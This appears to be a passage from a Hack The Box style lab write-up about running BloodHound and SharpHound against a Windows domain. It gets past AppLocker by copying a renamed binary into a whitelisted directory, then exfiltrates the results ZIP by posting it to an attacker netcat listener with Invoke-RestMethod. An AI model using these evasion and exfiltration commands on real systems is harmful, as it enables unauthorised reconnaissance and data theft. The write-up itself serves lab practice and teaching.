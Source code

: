 
## Running Bloodhound

```bash
# In one TMUX pane
docker pull neo4j
docker run --name ne04j -d -p 7473:7473 -p 7474:7474 -p 7687:7687 -v $HOME/neo4j/data:/data -v $HOME/neo4j/logs:/logs -v $HOME/neo4j/import:/var/lib/neo4j/import -v $HOME/neo4j/plugins:/plugins --env 
NEO4J_AUTH=neo4j/test neo4j:latest

# In another TMUX pane
sudo ./BloodHound --no-sandbox 
```

Find a writeable directory on the box and use a `python` web server to get the files onto the target. (Use the SharpHound.exe)

Try to run it and get knocked back!

```bash
.\SharpHound.exe                                                                                     
Program 'SharpHound.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\SharpHound.exe                                                                                   
+ ~~~~~~~~~~~~~~~~.                                                                                  
At line:1 char:1                                                                                     
+ .\SharpHound.exe                                                                                                                                                                                         
+ ~~~~~~~~~~~~~~~~                                
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed  
```

This is an `AppLocker` issue. To get around this we need to run the binary from a "white listed" directory on the target. We can get a list of these directories from [this link](https://github.com/api0cradle/UltimateAppLockerByPassList)

> Just to be safe I also renamed the binary to `calc.exe` no idea if that is going to make a difference but it makes me feel better

```bash
mv SharpHound.exe calc.exe
copy calc.exe C:\Windows\temp\calc.exe
C:\Windows\temp\calc.exe
------------------------------------------------                                                     
Initializing SharpHound at 7:26 AM on 12/12/2020
------------------------------------------------                                                     
                                                  
Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
                                                  
[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL   
[+] Cache File not Found: 0 Objects in cache   
                                                                                                     
[+] Pre-populating Domain Controller SIDS      
Status: 0 objects finished (+0) -- Using 19 MB RAM                                                   
Status: 61 objects finished (+61 ì)/s -- Using 27 MB RAM
Enumeration finished in 00:00:00.4003317
Compressing data to .\20201212072610_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 7:26 AM on 12/12/2020! Happy Graphing!
```

> 2 hours later...

Finally got the ZIP file off the box and onto our machine:

```bash
# On our Kali box
nc -lvnp 1337 > bloodhound_results.zip
# On the target
Invoke-RestMethod -Uri http://10.10.14.3:1337/ -Method Post -InFile bloodhound.zip
```

Only way to tell if it's finished is to compare the size of the files on the Kali box and the host.
